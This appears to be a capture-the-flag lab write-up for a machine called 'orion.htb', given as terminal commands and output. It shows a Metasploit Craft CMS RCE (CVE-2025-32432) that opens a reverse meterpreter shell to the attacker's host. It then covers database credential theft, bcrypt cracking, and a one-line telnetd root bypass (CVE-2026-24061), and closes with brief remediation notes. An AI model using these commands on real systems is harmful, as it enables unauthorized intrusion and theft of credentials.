

| Property         | Value                         |
| ---------------- | ----------------------------- |
| **OS**           | Linux / Windows               |
| **Difficulty**   | Easy / Medium / Hard / Insane |
| **Release Date** | YYYY-MM-DD                    |
| **State**        | YYYY-MM-DD                    |
| **IP**           | 10.10.10.X                    |
| **Techniques**   | technique-1, technique-2      |
| **Tags**         | #web #privesc #linux          |

---
## Summary

Brief 2-3 sentence ogverview of the machine and attack path.

---
## Enumeration

```
 echo '10.129.35.17 orion.htb' | sudo tee -a /etc/hosts
```

Added the ip address of the machine to the /etc/hosts file.
### Nmap Scan

```
 sudo nmap -sCV orion.htb                              
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-27 06:51 EDT
Nmap scan report for orion.htb (10.129.35.17)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Orion Telecom
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds                                                                              
```

### Service Enumeration


Exposed admin endpoint:

```
 gobuster dir -u http://orion.htb -w /home/kali/SecLists/Discovery/Web-Content/raft-large-directories.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://orion.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/SecLists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 0] [--> http://orion.htb/admin/login]
/wp-admin             (Status: 418) [Size: 54217]
/logout               (Status: 302) [Size: 0] [--> http://orion.htb/]
/assets               (Status: 301) [Size: 178] [--> http://orion.htb/assets/]
/index                (Status: 200) [Size: 12272]
/p1                   (Status: 200) [Size: 12272]
/p15                  (Status: 200) [Size: 12272]
/p13                  (Status: 200) [Size: 12272]
/p2                   (Status: 200) [Size: 12272]
/p10                  (Status: 200) [Size: 12272]
Progress: 8069 / 62281 (12.96%)^C
```

**Vulnerable Craft CMS 5.6.16:**


---
## Foothold

### CVE-2025-32432

Craft is a flexible, user-friendly CMS for creating custom digital experiences on the web and beyond. Starting from version 3.0.0-RC1 to before 3.9.15, 4.0.0-RC1 to before 4.14.15, and 5.0.0-RC1 to before 5.6.17, Craft is vulnerable to unauthenticated remote code execution. Attackers can inject custom PHP objects via the asset generation endpoints to execute arbitrary commands. This is a high-impact, low-complexity attack vector. This issue has been patched in versions 3.9.15, 4.14.15, and 5.6.17, and is an additional fix for CVE-2023-41892. 

The vulnerability works and is exploited in the wild over vulnerable Craft CMS instances if a threat actor  follows: 

- Sending a crafted GET request to _**/index.php?p=admin/dashboard**_ to retrieve a CSRF token from the CraftCMS admin dashboard. 

- Sends a POST request to _**/index.php?p=admin/actions/assets/generate-transform**_ with a specially crafted JSON payload and retrieves a valid asset ID through PHP object injection. 

- The payload includes a PHP object that gets deserialized, leading to arbitrary code execution through the _**GuzzleHttp\Psr7\FnStream**_ class.

Source: https://www.sonicwall.com/it-it/blog/craftcms-vulnerability-exposes-systems-to-pre-auth-rce-now-exploited-in-the-wild-cve-2025-32432-
### Exploitation

PoC: https://www.rapid7.com/db/modules/exploit/linux/http/craftcms_preauth_rce_cve_2025_32432/

```shell
msf > use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ASSET_ID  389              yes       Existing asset ID
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, http, socks5, socks5h
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


View the full module info with the info, or info -d command.

msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set rhosts orion.htb
rhosts => orion.htb
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set lhost tun0
lhost => 10.10.15.4
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > run
[*] Started reverse TCP handler on 10.10.15.4:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (41224 bytes) to 10.129.35.17
[*] Meterpreter session 1 opened (10.10.15.4:4444 -> 10.129.35.17:58740) at 2026-06-27 07:07:39 -0400

meterpreter > 

```

---
## User Flag

### Lateral Movement from www-data to adam:

```
meterpreter > shell
Process 1535 created.
Channel 0 created.
/bin/bash -i
bash: cannot set terminal process group (964): Inappropriate ioctl for device
bash: no job control in this shell
www-data@orion:~/html/craft/web$ ss -tlpn
ss -tlpn
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                                 
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                           
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=1089,fd=6),("nginx",pid=1088,fd=6))
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*                                                           
LISTEN 0      10         127.0.0.1:23        0.0.0.0:*                                                           
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*                                                           
LISTEN 0      128             [::]:22           [::]:*                                                           
www-data@orion:~/html/craft/web$ env
env
CRAFT_ENVIRONMENT=dev
CRAFT_DB_PORT=3306
CRAFT_APP_ID=CraftCMS--67912ad2-1f1b-4993-bfec-e64daa5c23ff
PWD=/var/www/html/craft/web
PRIMARY_SITE_URL=http://orion.htb/
CRAFT_DB_DATABASE=orion
HOME=/var/www
CRAFT_DB_TABLE_PREFIX=
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
USER=www-data
SHLVL=1
CRAFT_DB_USER=root
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DB_SCHEMA=
_=/usr/bin/env
www-data@orion:~/html/craft/web$ which python3
which python3
/usr/bin/python3
www-data@orion:~/html/craft/web$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<eb$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@orion:~/html/craft/web$ mysql -u root -p'SuperSecureCraft123Pass!' -h 127.0.0.1 orion
<oot -p'SuperSecureCraft123Pass!' -h 127.0.0.1 orion
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8148
Server version: 10.6.23-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [orion]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| orion              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [orion]> use orion;
use orion;
Database changed
MariaDB [orion]> show tables;
show tables;
+----------------------------+
| Tables_in_orion            |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| assets_sites               |
| authenticator              |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elementactivity            |
| elements                   |
| elements_bulkops           |
| elements_owners            |
| elements_sites             |
| entries                    |
| entries_authors            |
| entrytypes                 |
| fieldlayouts               |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| migrations                 |
| plugins                    |
| projectconfig              |
| queue                      |
| recoverycodes              |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| sections                   |
| sections_entrytypes        |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| sso_identities             |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| webauthn                   |
| widgets                    |
+----------------------------+
66 rows in set (0.001 sec)

MariaDB [orion]> select * from users;
select * from users;
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | affiliatedSiteId | active | pending | locked | suspended | admin | username | fullName | firstName | lastName | email          | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |             NULL |      1 |       0 |      0 |         0 |     1 | admin    | NULL     | NULL      | NULL     | adam@orion.htb | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS | 2026-03-12 11:25:04 | NULL               | NULL                    |              NULL | NULL                 | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2026-03-12 11:24:51    | 2026-03-06 11:24:45 | 2026-03-12 11:25:04 |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)

MariaDB [orion]> 

```

```
www-data@orion:~/html/craft/web$ ls /home
ls /home
adam

```

hash cracking

```
 hashcat -m 3200 '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS'  /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-sandybridge-AMD Ryzen 7 5700G with Radeon Graphics, 1469/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 512 MB (1038 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS:darkangel
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/...LUg0lS
Time.Started.....: Sat Jun 27 07:20:19 2026 (1 min, 31 secs)
Time.Estimated...: Sat Jun 27 07:21:50 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-72 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:        7 H/s (8.29ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 656/14344385 (0.00%)
Rejected.........: 0/656 (0.00%)
Restore.Point....: 640/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:8160-8192
Candidate.Engine.: Device Generator
Candidates.#01...: sunshine1 -> sweetpea
Hardware.Mon.#01.: Util: 87%

Started: Sat Jun 27 07:20:13 2026
Stopped: Sat Jun 27 07:21:51 2026
                                                                                                                                        
```

Credentials recovered: `adam:darkangel`

## User flag

```
ssh adam@orion.htb                                     
adam@orion.htb's password: 
Permission denied, please try again.
adam@orion.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 27 12:01:04 PM UTC 2026

  System load:  0.0               Processes:             226
  Usage of /:   78.1% of 5.81GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.129.35.17
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

adam@orion:~$ ls
user.txt
adam@orion:~$ cat user.txt
c0a41a68366368ce471497e553646536
(censor)
```
---
## Privilege Escalation

### Enumeration

Active listening TCP ports enumeration reveals a telnet service running on port 23 (default telnet TCP port):
```
adam@orion:~$ ss -tlpn
State                      Recv-Q                     Send-Q                                         Local Address:Port                                         Peer Address:Port                    Process                     
LISTEN                     0                          128                                                  0.0.0.0:22                                                0.0.0.0:*                                                   
LISTEN                     0                          511                                                  0.0.0.0:80                                                0.0.0.0:*                                                   
LISTEN                     0                          80                                                 127.0.0.1:3306                                              0.0.0.0:*                                                   
LISTEN                     0                          10                                                 127.0.0.1:23                                                0.0.0.0:*                                                   
LISTEN                     0                          4096                                           127.0.0.53%lo:53                                                0.0.0.0:*                                                   
LISTEN                     0                          128                                                     [::]:22                                                   [::]:* 
```

Vulnerable telnet version 2.7

```                                                  
adam@orion:~$ telnet --version
telnet (GNU inetutils) 2.7
Copyright (C) 2025 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by many authors.
adam@orion:~$ 

```

telnetd in GNU Inetutils through 2.7 allows remote authentication bypass via a "-f root" value for the USER environment variable.
### Exploitation CVE-2026-24061

PoC: https://medium.com/@shivam_bathla/telnetd-auth-bypass-to-root-f6e239d692b5

```shell
adam@orion:~$ USER="-f root" telnet -a 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

Linux 5.15.0-177-generic (orion) (pts/3)

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 27 12:05:03 PM UTC 2026

  System load:  0.0               Processes:             231
  Usage of /:   78.3% of 5.81GB   Users logged in:       1
  Memory usage: 10%               IPv4 address for eth0: 10.129.35.17
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@orion:~# 
```

## Root flag

```
root@orion:~# cat /root/root.txt
8a40ae244433c71c6b174e4ea8fec4ef (censor)
```
---
## Remediation

- cve 2025 32432 : update craftcms to a patched version
- plaintext database credentials stored in an enviromental variable
- CVE-2026-24061 upgrade telnet to a patched version

---
## References

- [Reference 1](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)
- [Reference 2](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)